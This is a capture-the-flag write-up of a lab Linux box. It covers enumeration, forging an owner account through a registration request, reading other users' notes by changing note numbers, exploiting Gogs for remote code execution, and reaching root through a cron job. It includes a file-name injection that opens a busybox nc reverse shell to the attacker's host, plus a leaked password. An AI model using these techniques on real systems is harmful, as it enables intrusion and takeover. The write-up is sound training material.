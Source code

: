 #Pwned #Wildcards #Linux #PathTraversal #CronJobs 
```IP
192.168.236.224
```
## Enumeration
## Nmap

As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.236.224 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)                   
| ssh-hostkey:            
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDFR/u8yZrrxkDWw/8gy/fNFksvT+QIL8O/6eD8zVxwKwgBURa9uRtOC8Dk6P+ktLwXJ9oSUitZeXVWjijbehpZBVHvywEOj9nc0bmk0+M/DGGbr1etS7cDvRzRATUtMPxQfYhzXqHlZe6Q2GfA0c75uybUXxOha8CTdK0Iv/maUUaiaPv3LGebQ4CpNaXNQfYVpC
dsxLn5MxFi+tfenn/4CinBPn1Ahnx499V1G0ANTaKLsEETjqaMd5jnmml2wH1GmKfKf/6FevWv0Q9Ylsi3x/ipkDpcQAMRQ/aw5NuSSDrGTdo0wRuuoEf5Ybenp9haPVxUAPHbEcMI2hdcP5B3Cd03qimMhHEkFXE8sTUxRKHG+hg7cF8On1EXZsH1fsVyrFAAoHRrap5CsubmNXT93EcK7lc65DbKgeqls643x0p/4W
OUiLXFstm6X4JCdEyhvWmnYtL3qDKMuQbCwrCJGeDjoaZTjHXbpjSxSnvtO04RT84x2t8MThyeYO3kSyM=
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNBWjceIJ9NSOLk8zk68zCychWoLxrcrsuJYy2C1pvpfOhVBrr8QBhYbJxzzGJ7DpuMT/DXiCwuLXdu0zeR4/Dk=
|   256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIG3LJwn9us7wxvkL0E6EEgOPG3P0fa0fRVuJuXeASZvs
80/tcp   open  http     syn-ack ttl 61
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E     
|_http-title: notes.pg
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, Termina
lServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest, GetRequest, HTTPOptions:
|     HTTP/1.0 403 Forbidden
|     Content-Type: text/html; charset=UTF-8
|_    Content-Length: 0
8000/tcp open  http-alt syn-ack ttl 61
|_http-title: Gogs
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 Not Found
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=30716a014753f3da; Path=/; HttpOnly          
|     Set-Cookie: _csrf=R-cRDmh7DsUZN0CfJvoiX1BC8oA6MTcyODg5MzE1NDcyNDYzNzA2Mw; Path=/; Domain=assignment.pg; Expires=Tue, 15 Oct 2024 08:05:54 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: DENY
|     Date: Mon, 14 Oct 2024 08:05:54 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>              
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="R-cRDmh7DsUZN0CfJvoiX1BC8oA6MTcyODg5Mz  
|   GenericLines:
|     HTTP/1.1 400 Bad Request  
```

## HTTP

It is possible to create a new user, so we create user test. When accessing with our new user, we see other users and among them various variables containing credentials:
```
authenticity_token=oPR93X4UzlLdlPeg_Aek9v3XDDJLLoL3hXS8pHLwzOPz8ER61j8nzjESjr4Tsq-_VGRhZBVCZ9TSr9VZqIe5YQ&user[username]=forged_owner&user[role]=owner&user[password]=forged_owner&user[password_confirmation]=forged_owner&button=
```
The credentials being: `forged_owner:forged_owner`. Now we can log in with the new credentials and create notes as shown below:


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014105705.png?raw=true)

When created, we can see that every note has its own name, which is an iterative number. We can try to access other previously created notes by changing the URL number as shown below:


![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014105725.png?raw=true)

In the first note we get a set of credentials:
```
svc-dev2022@@@!;P;4SSw0Rd
```

With this new set of credentials we can leverage a GOGs vulnerability. This service is present in the port 8000 as shown in our nmap output. The exploit I have used is the following:
https://github.com/Ressurect0/Gogs-RCE?tab=readme-ov-file

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014111732.png?raw=true)

Once executed, we have remote access to the machine as user `jane`.
# PrivEsc

### Peass
With winpeas we locate a suspicious cron job that is executing the following bash file every minute:

```
/usr/bin/clean-tmp.sh
```
This file is using the find command over /usr/shm directory and then removing all files contained in it. By creating a file named as `$(any_command)` it is possible to execute a command inside our initial command. After some trial and error I set up a listener in our kali machine an manage to execute a reverse shell creating a file with the following command:

```
echo '$(busybox nc 192.168.45.164 4444 -e sh)'
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014120107.png?raw=true)

Now we are root!

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241014120128.png?raw=true)

